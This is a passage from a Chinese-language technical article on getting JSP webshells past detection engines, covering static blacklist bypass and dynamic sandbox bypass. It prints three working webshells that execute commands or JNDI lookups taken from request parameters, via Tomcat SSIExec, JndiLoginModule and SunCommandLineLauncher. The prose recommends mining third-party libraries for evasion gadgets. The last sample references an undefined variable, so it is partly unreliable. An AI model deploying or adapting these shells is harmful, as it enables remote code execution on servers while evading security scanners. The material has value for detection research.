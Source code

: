 构造如下：

```java
<%@ page import="org.apache.catalina.ssi.*" %>
<%
	String[] paramNames = {"cmd"};
	String[] paramValues = {request.getParameter("cmd")};
	SSIMediator ssiMediator = new SSIMediator(new SSIServletExternalResolver(null,request,response,false,1,""),1702372871);
	new SSIExec().process(ssiMediator,"",paramNames,paramValues,null);
%>
```

除了Runtime.getRuntime().exec()和ProcessBuilder().start()，也可以使用JNDI注入实现代码执行，并且我们已经可以执行WebShell，因此JNDI注入也不受JDK版本的限制。

```java
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="utf-8" %>
<%@ page import="com.sun.security.auth.module.JndiLoginModule" %>
<%@ page import="org.apache.catalina.realm.JAASRealm" %>
<%@ page import="org.apache.catalina.realm.JAASCallbackHandler" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%
    JndiLoginModule jndiLoginModule = new JndiLoginModule();
    HashMap hashMap = new HashMap();
    hashMap.put(jndiLoginModule.USER_PROVIDER,request.getParameter("url"));
    hashMap.put(jndiLoginModule.GROUP_PROVIDER,"group");
    JAASRealm jaasRealm = new JAASRealm();
    jaasRealm.setContainer(new StandardContext());
    JAASCallbackHandler jaasCallbackHandler = new JAASCallbackHandler(jaasRealm,"test","test");
    jndiLoginModule.initialize(null,jaasCallbackHandler,null,hashMap);
    jndiLoginModule.login();
%>
```

在真实的环境中或者特定的软件环境，很有可能还会存在其他三方依赖。针对性的挖掘三方依赖中的漏洞利用类，相对来说绕过引擎静态分析黑名单的概率会更大一些。

### （二）动态沙箱绕过

针对动态沙箱的检测，如果可能让引擎在运行或者模拟运行时无法到达恶意代码的分支，则可以绕过。以如下样本为例：

```java
<%@ page import="java.util.*" %>
<%@ page import="java.util.List" %>
<%@ page import="java.util.ArrayList" %>
<%
    SunCommandLineLauncher sunCommandLineLauncher =  new com.sun.tools.jdi.SunCommandLineLauncher();
    Map map = sunCommandLineLauncher.defaultArguments();
    Connector.Argument argument = (Connector.Argument)map.get("vmexec");
    argument.setValue(request.getParameter("cmd"));
    map.put("main",argument);
    ((Connector.Argument)map.get("home")).setValue("");
    sunCommandLineLauncher.launch(hashMap);
%>
```

